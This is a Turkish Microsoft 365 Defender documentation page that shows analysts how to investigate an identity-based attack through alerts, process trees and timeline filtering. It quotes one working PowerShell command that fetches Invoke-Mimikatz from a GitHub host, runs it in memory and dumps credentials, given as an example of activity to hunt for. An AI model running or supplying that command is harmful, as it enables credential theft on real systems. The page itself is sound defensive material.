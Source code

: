 ```yaml
---
title: Kimlik tabanlı saldırı örneği
description: Kimlik tabanlı bir saldırının örnek analizinde adım adım ilerleyin.
keywords: olaylar, uyarılar, araştırma, bağıntı, saldırı, makineler, cihazlar, kullanıcılar, kimlikler, kimlik, posta kutusu, e-posta, 365, Microsoft, m365, olay yanıtı, siber saldırı
search.product: eADQiWindows 10XVcnh
ms.prod: m365-security
ms.mktglfcycl: deploy
ms.sitesec: library
ms.pagetype: security
f1.keywords:
- NOCSH
ms.author: dansimp
author: dansimp
ms.localizationpriority: medium
manager: dansimp
audience: ITPro
ms.collection:
- M365-security-compliance
- m365solution-firstincident
ms.topic: conceptual
search.appverid:
- MOE150
- MET150
ms.technology: m365d
ms.openlocfilehash: 2e0b237ad045b98b2bb013399f344db3f20f1919
ms.sourcegitcommit: c1eaea74c8ffce2f9f477c9469342e88e4a70c14
ms.translationtype: MT
ms.contentlocale: tr-TR
ms.lasthandoff: 07/20/2022
ms.locfileid: "66893627"
---
```

# <a name="example-of-an-identity-based-attack"></a>Kimlik tabanlı saldırı örneği

[!INCLUDE [Microsoft 365 Defender rebranding](../includes/microsoft-defender.md)]

**Şunlar için geçerlidir:**
- Microsoft 365 Defender

Kimlik için Microsoft Defender, kuruluşunuzdaki kimlikleri tehlikeye atmaya yönelik kötü amaçlı girişimleri algılamaya yardımcı olabilir. Kimlik için Defender Microsoft 365 Defender ile tümleştirildiğinden güvenlik analistleri, Şüpheli Netlogon ayrıcalık yükseltme girişimleri gibi Kimlik için Defender'dan gelen tehditleri görebilir.

## <a name="analyzing-the-attack-in-microsoft-defender-for-identity"></a>Kimlik için Microsoft Defender'de saldırıyı analiz etme

Microsoft 365 Defender analistlerin uyarıları olaylar sayfasının **Uyarılar** sekmesindeki algılama kaynağına göre filtrelemesine olanak tanır. Aşağıdaki örnekte algılama kaynağı **Kimlik için Defender** olarak filtrelenmiştir. 

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-mdi-filter.png" alt-text="Kimlik için Microsoft Defender'de algılama kaynağını filtreleme" lightbox="../../media/first-incident-path-identity/first-incident-identity-mdi-filter.png":::

**Şüpheli karma saldırı üst geçidi** uyarısı seçildiğinde, Microsoft Defender for Cloud Apps daha ayrıntılı bilgiler görüntüleyen bir sayfaya gider. Saldırının açıklamasını ve düzeltme önerilerini okumak için **Bu uyarı türü hakkında daha fazla bilgi edinin'i** seçerek her zaman bir uyarı veya [saldırı](/defender-for-identity/lateral-movement-alerts#suspected-overpass-the-hash-attack-kerberos-external-id-2002) hakkında daha fazla bilgi edinebilirsiniz.
 
:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-alert-example.png" alt-text="Şüpheli bir karmayı aşarak saldırı uyarısı" lightbox="../../media/first-incident-path-identity/first-incident-identity-alert-example.png"::: 

## <a name="investigating-the-same-attack-in-microsoft-defender-for-endpoint"></a>Uç Nokta için Microsoft Defender'de aynı saldırıyı araştırma

Alternatif olarak, bir analist uç nokta üzerindeki etkinlik hakkında daha fazla bilgi edinmek için Uç Nokta için Defender'ı kullanabilir. Olay kuyruğundan olayı seçin ve ardından **Uyarılar** sekmesini seçin. Buradan, algılama kaynağını da tanımlayabilirler. EDR olarak etiketlenmiş bir algılama kaynağı, Uç Nokta için Defender olan Uç Nokta Algılama ve Yanıt anlamına gelir. Analist buradan EDR tarafından algılanan bir uyarıyı seçer.

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-mde-edr.png" alt-text="Uç Nokta için Microsoft Defender portalında Uç Nokta Algılama ve Yanıt" lightbox="../../media/first-incident-path-identity/first-incident-identity-mde-edr.png":::

Uyarı sayfasında etkilenen cihaz adı, kullanıcı adı, otomatik araştırmanın durumu ve uyarı ayrıntıları gibi ilgili çeşitli bilgiler görüntülenir. Uyarı hikayesi, işlem ağacının görsel bir gösterimini gösterir. İşlem ağacı, uyarıyla ilgili üst ve alt işlemlerin hiyerarşik bir gösterimidir.

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-mde-tree.png" alt-text="Uç Nokta için Microsoft Defender bir uyarı işlemi ağacı" lightbox="../../media/first-incident-path-identity/first-incident-identity-mde-tree.png"::: 

Her işlem daha fazla ayrıntı görüntülemek için genişletilebilir. Analistin görebileceği ayrıntılar, kötü amaçlı bir betiğin parçası olarak girilen gerçek komutlar, giden bağlantı IP adresleri ve diğer yararlı bilgilerdir.

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-process-details.png" alt-text="Uç Nokta için Microsoft Defender portalındaki işlem ayrıntıları" lightbox="../../media/first-incident-path-identity/first-incident-identity-process-details.png":::
 
**Zaman çizelgesinde görüntüle'yi** seçerek analist, güvenliğin tam zamanını belirlemek için daha da detaya gidebilir. 

Uç Nokta için Microsoft Defender birçok kötü amaçlı dosyayı ve betikleri algılayabilir. Ancak, giden bağlantılar, PowerShell ve komut satırı etkinliği için birçok meşru kullanım nedeniyle, bazı etkinlikler kötü amaçlı bir dosya veya etkinlik oluşturana kadar zararsız olarak kabul edilir. Bu nedenle, zaman çizelgesini kullanmak analistlerin uyarıyı çevresindeki etkinlikle bağlam içine alarak aksi takdirde ortak dosya sistemi ve kullanıcı etkinliği tarafından gizlenen saldırının özgün kaynağını veya zamanını belirlemesine yardımcı olur. 

Zaman çizelgesini kullanmak için bir analist uyarı algılama sırasında (kırmızı) başlar ve kötü amaçlı etkinliğe yol açan özgün etkinliğin gerçekte ne zaman başladığını belirlemek için geriye doğru aşağı kaydırır. 

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-start-time.png" alt-text="Uyarı algılama için analistin başlangıç zamanı" lightbox="../../media/first-incident-path-identity/first-incident-identity-start-time.png"::: 

Windows Update bağlantıları, Windows Güvenilen Yazılım etkinleştirme trafiği, Microsoft sitelerine yönelik diğer yaygın bağlantılar, üçüncü taraf İnternet etkinliği, Microsoft Endpoint Configuration Manager etkinliği ve diğer zararsız etkinlikler gibi ortak etkinlikleri şüpheli etkinliklerden anlamak ve ayırt etmek önemlidir. Ayırt etmenin bir yolu zaman çizelgesi filtrelerini kullanmaktır. Analistin görüntülemek istemediği bir şeyi filtrelerken belirli etkinlikleri vurgulayan birçok filtre vardır. 

Aşağıdaki görüntüde analist yalnızca ağ ve işlem olaylarını görüntülemek için filtre uygulamıştı. Bu filtre ölçütü analistin, Not Defteri'nin işlem ağacında da gördüğümüz bir IP adresiyle bağlantı kurduğu olayı çevreleyen ağ bağlantılarını ve işlemlerini görmesine olanak tanır. 

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-notepad.png" alt-text="Kötü amaçlı giden bağlantı oluşturmak için Not Defteri nasıl kullanıldı?" lightbox="../../media/first-incident-path-identity/first-incident-identity-notepad.png"::: 

Bu özel olayda, kötü amaçlı bir giden bağlantı oluşturmak için Not Defteri kullanılmıştır. Ancak saldırganlar genellikle iexplorer.exe kullanarak kötü amaçlı yük indirmek için bağlantılar kurar çünkü normalde iexplorer.exe işlemler normal web tarayıcısı etkinliği olarak kabul edilir.

Zaman çizelgesinde aranacak başka bir öğe de PowerShell'in giden bağlantılar için kullanması olabilir. Analist, kötü amaçlı bir dosyayı barındıran bir web sitesine giden bağlantı gibi `IEX (New-Object Net.Webclient)` komutlarla başarılı PowerShell bağlantıları arar. 

Aşağıdaki örnekte, Bir web sitesinden Mimikatz'ı indirmek ve yürütmek için PowerShell kullanılmıştır:

```powershell
IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/mattifestation/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1'); Invoke-Mimikatz -DumpCreds
```
Analist, yalnızca PowerShell ile oluşturulan olayları görüntülemek için arama çubuğuna anahtar sözcüğü yazarak anahtar sözcükleri hızla arayabilir. 

## <a name="next-step"></a>Sonraki adım

[Kimlik avı](first-incident-path-phishing.md) araştırma yoluna bakın.

## <a name="see-also"></a>Ayrıca bkz.

- [Olaylara genel bakış](incidents-overview.md)
- [Olayları yönetin](manage-incidents.md)
- [Olayları araştırın](investigate-incidents.md)
